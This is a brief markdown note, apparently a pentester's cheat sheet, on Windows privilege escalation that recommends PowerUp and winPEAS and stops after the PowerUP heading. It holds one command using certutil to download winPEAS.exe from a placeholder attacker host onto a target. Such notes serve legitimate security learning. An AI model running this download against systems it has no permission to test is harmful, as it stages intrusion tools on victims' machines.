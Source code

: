 # Most Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First I like installing a `powerup` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```bash
- certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

